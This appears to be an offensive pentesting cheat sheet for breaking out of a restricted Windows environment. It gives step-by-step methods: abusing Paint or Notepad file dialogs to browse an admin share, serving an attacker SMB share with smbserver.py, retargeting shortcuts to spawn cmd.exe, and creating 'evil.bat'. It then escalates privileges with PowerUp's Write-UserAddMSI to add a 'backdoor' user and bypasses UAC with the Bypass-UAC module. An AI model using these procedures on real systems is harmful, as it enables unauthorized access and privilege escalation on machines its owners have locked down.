 VM Breakout

1. Gain access to a Dialog Box
2. Exploit the Dialog Box to achieve command execution
3. Escalate privileges to gain higher levels of access

Features like Save, Save As, Open, Load, Browse, Import, Export, Help, Search, Scan, and Print, usually provide an attacker with an opportunity to invoke a Windows dialog box.

Tools:
- Paint
- Notepad
- Wordpad

1. Start Paint
2. Click open
3. Type in "\\127.0.0.1\c$\users\pmorgan" under File name field, with all files selected.


## Accessing SMB Share from restricted environment

1. Start smb server from Ubuntu machine
```
smbserver.py -smb2support share $(pwd)
```
2. Type in "\\10.13.38.95\share" under File name field, with all files selected.


**Alternate Explorer
In cases where strict restrictions are imposed on File Explorer, alternative File System Editors like Q-Dir or Explorer++ can be employed as a workaround.
- Explorer++: https://explorerplusplus.com/

**Alternate Registry Editors
- Simpleregedit: https://sourceforge.net/projects/simpregedit/
- Uberregedit: https://sourceforge.net/projects/uberregedit/
- SmallRegistryEditor: https://sourceforge.net/projects/sre/


## Modify existing shortcut file

1. Right-click on desired shortcut
2. Select Properties
3. Within the Target field, modify the path to the intended folder for access (C:\Windows\System32\cmd.exe)
4. Execute the Shortcut and cmd will be spawned

If there is not already a shortcut, we can transfer an existing shortcut file using an SMB server or generate a malicious .lnk file


## Script Execution

1. Create a new text file and name it "evil.bat"
2. Open 'evil.bat' with a text editor such as a Notepad.
3. Input the command 'cmd' into the file.
4. Save the file.


## Escalating Privileges
WinPEAS: https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS
PowerUp: https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1
```ps
Import-Module .\PowerUp.ps1
Write-UserAddMSI
```
```cmd
runas /user:backdoor cmd
```

**Bypassing UAC
https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC
```
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\Bypass-UAC.ps1
Bypass-UAC -Method UacMethodSysprep
whoami /all
```
